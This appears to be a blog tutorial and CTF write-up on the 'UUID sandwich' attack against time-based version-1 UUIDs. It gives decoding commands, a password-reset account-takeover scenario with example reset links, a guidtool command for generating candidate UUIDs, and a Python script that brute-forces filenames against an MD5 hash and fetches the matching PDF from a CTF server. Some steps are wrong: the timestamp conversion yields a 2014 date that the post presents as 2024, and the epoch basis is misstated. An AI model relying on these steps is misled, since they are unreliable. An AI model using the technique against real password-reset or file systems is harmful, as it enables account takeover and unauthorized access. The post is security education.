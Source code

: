 ```yaml
---
title: "UUID Sandwich Exploitation"
layout: post
tags: [hacking, cybersecurity]
image: /assets/images/uuidv1.png

---
```


### UUID Sandwich Attack – Version 1

A **UUID** (Universally Unique Identifier), also known as **GUID**, has both vulnerable versions and stronger iterations that have emerged over time. These randomly generated unique values are produced at micro- or nanosecond precision. Although the chance of duplication is extremely low, it is never truly zero. Identical values *can* be generated, though detecting them is extremely difficult. The probability of duplication is low but never zero.

**Example UUID**:  
```
f81d4fae-7dec-11d0-a765-00a0c91e6bf6
```

### Exploitation

The **Sandwich Attack** usually appears in **UUID version 1**, which relies on time and MAC address for generation. This can lead to vulnerabilities such as **Account Takeover, BOLA, or IDOR**. UUIDv1 values produced within the same timestamp can be duplicated, enabling exploitation.

On Linux, you can generate values with the `uuid` command.

UUID v1: `6ea0f896-3144-11ef-a367-005056260027` & `6f03f496-3144-11ef-86bc-005056260027`  
Here, the values `a367` and `86bc` differ, but the MAC portion `005056260027` remains constant.

UUID v4: `60a0cf20-f5a8-4ea2-9469-d4269f0a5bc8` & `62f4a612-6d64-48a2-a271-26217702999e`  
Here the difference is complete. UUIDv4 offers ~99.9% safety, but UUIDv1 significantly increases risk.

For exploitation, see Burp Suite extension:  
https://portswigger.net/bappstore/65f32f209a72480ea5f1a0dac4f38248  

Also reference: https://datatracker.ietf.org/doc/html/rfc4122  

![uuidv1](/assets/images/uuidv1.png)

### 10 Sequential Generations

```js
f2c6e440-3145-11ef-8465-0800200c9a66
f2c6e441-3145-11ef-8465-0800200c9a66
f2c6e442-3145-11ef-8465-0800200c9a66
f2c6e443-3145-11ef-8465-0800200c9a66
f2c6e444-3145-11ef-8465-0800200c9a66
f2c6e445-3145-11ef-8465-0800200c9a66
f2c6e446-3145-11ef-8465-0800200c9a66
f2c6e447-3145-11ef-8465-0800200c9a66
f2c6e448-3145-11ef-8465-0800200c9a66
f2c6e449-3145-11ef-8465-0800200c9a66
```

As seen, time is highly sensitive:

`Timestamp: 139384289967400006`  
`Timestamp: 139384289967400007`  

The changing part `f2c6e447-3145-11ef` encodes the time. The MAC portion `08:00:20:0c:9a:66` often remains static.

### UUID Extraction

Example UUID: `5c1dba54-ee3e-11ee-a951-0242ac120002`  
Time portion: `1eeee3e5c1dba54`  

![uuid extract](/assets/images/UUID2.jpg)

Decode timestamp:  

```js
printf "%d\n" 0x1eeee3e5c1dba54
139310590095899220
```

Convert to decimal:  

```sh
echo "scale=9; 139310590095899220 / 10^8" | bc
1393105900.958992200
```

This corresponds to Epoch time `Saturday, 30 March 2024 02:36:49`.  

Using GuidReaper:  

```js
GuidReaper -d "5c1dba54-ee3e-11ee-a951-0242ac120002"
GUID version: 1
Time: 2024-03-30 02:36:49.589922
Timestamp: 139310590095899220
Node: 2485377957890
MAC address: 02:42:ac:12:00:02
Clock sequence: 10577
```

Reverse engineering UUIDv1 allows exploitation using **Time Manipulation**.

### Exploitation Scenario

1. Suppose the system generates a password reset link using UUID.  
2. Attacker account: `uuid@attack.com`, victim account: `victim@attack.com`.  
3. Both trigger password reset at the same time.  

Victim link:  

```php
https://server/reset_password?reset=dc464b70-314a-11ef-8465-0800200c9a66&user=victim@attack.com
```  
Time: 2024-06-23 10:25:06.471000  

Attacker link:  

```php
https://server/reset_password?reset=de7a4270-314a-11ef-8465-0800200c9a66&user=uuid@attack.com
```  
Time: 2024-06-23 10:25:10.167000  

A 4-second difference shows how concurrency flaws could enable account takeover.  

With GuidTool, UUIDs can be generated for specific timestamps:  

```js
guidtool.py 667b8570-0d84-11ef-9ed0-0800200c9a66 -t "1923-10-29 20:30:00" -p 1 
```

This produces many values for a target time. Such weaknesses can lead to **BOLA**, **IDOR**, or **Account Takeover**.  

See: [Uuid-Exploitation](https://github.com/cagrieser/Uuid-Exploitation)  

### CTF Scenario

In an IguCTF challenge, we exploited UUIDv1 Sandwich to access unauthorized files and retrieve a flag.  

![igu cyber](/assets/images/IguCyber.png)

Hashing filenames locally avoids server overload. Example script:  

```py
import hashlib
from colorama import init, Fore
import PyPDF2
import requests
import io 

init(autoreset=True)

target_hash = 'def3c4c32117683fcffad14e3b2a9b5d'

def md5_hash(text):
    return hashlib.md5(text.encode()).hexdigest()

def get_pdf_metadata_from_url(pdf_url):
    response = requests.get(pdf_url)
    if response.status_code == 200:
        pdf_content = response.content
        pdf_file = PyPDF2.PdfFileReader(io.BytesIO(pdf_content))
        return pdf_file.getDocumentInfo()
    return None

with open('FullAttackUUID.txt', 'r') as file:
    for line in file:
        filename = line.strip() + '.pdf'
        if md5_hash(filename) == target_hash:
            print(Fore.GREEN + f"Match found: {filename}")
            url = f"https://demindensimdiyegeldim.igusiber.com.tr/{filename}"
            metadata = get_pdf_metadata_from_url(url)
            if metadata:
                for key, value in metadata.items():
                    print(f"{key}: {value}")
            break
```

### Final

UUIDv1 is predictable due to timestamps and MAC addresses, making it exploitable. UUIDv4 is safer, but UUIDv1 remains in use, creating risks.

![exp](/assets/images/exp.png)  

---

## Acknowledgment

I would like to sincerely thank [Çağrı Eser](https://cagrieser.com/) for his invaluable contributions and support.  

You can connect with him on [LinkedIn](https://www.linkedin.com/in/cagrieser/).

